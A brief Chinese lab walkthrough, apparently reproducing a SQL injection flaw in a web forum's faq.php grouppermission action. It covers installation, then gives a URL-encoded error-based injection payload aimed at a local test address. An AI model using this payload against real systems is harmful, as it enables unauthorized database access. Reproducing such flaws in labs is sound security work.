 # 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)

![image]({path}/4.png)


## 攻击实战
在浏览器输入
```
http://192.168.1.170:7777//faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28md5%281%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23
```
![image]({path}/5.png)